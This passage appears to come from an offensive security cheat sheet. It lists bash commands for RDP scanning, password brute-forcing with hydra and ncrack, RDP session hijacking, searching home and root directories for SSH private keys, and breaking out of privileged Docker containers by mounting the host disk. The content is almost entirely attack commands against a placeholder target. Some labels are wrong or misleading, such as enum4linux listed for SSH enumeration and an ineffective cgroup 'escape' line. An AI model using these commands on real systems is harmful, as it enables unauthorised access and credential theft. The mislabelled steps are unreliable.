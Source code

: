 **RDP Enumeration and Exploitation**
```bash
# RDP service detection
nmap -p 3389 --script rdp-enum-encryption,rdp-vuln-ms12-020 target.com

# RDP brute force
hydra -L users.txt -P passwords.txt rdp://target.com
ncrack -vv --user administrator -P passwords.txt rdp://target.com

# RDP session hijacking (if admin access)
query session
tscon 2 /dest:rdp-tcp#0
```

**SSH Key-Based Attacks**
```bash
# SSH user enumeration
ssh-keyscan -t rsa target.com
enum4linux target.com

# SSH key discovery
find /home -name "*.pub" 2>/dev/null
find /home -name "id_*" 2>/dev/null
find /root/.ssh -name "*" 2>/dev/null

# Weak SSH key detection
ssh-badkeys -a /path/to/authorized_keys
```

## Advanced Persistence Techniques

### Container Escape for Initial Access

#### Docker Escape Techniques

**Privileged Container Detection**
```bash
# Check if running in container
if [ -f /.dockerenv ]; then
    echo "Inside Docker container"
fi

# Check for privileged mode
if [ -c /dev/kmsg ]; then
    echo "Privileged container detected"
fi

# Mount host filesystem
mkdir /mnt/host
mount /dev/sda1 /mnt/host 2>/dev/null && echo "Host filesystem mounted"

# Escape via cgroups (if writable)
echo 1 > /sys/fs/cgroup/cgroup.procs
```
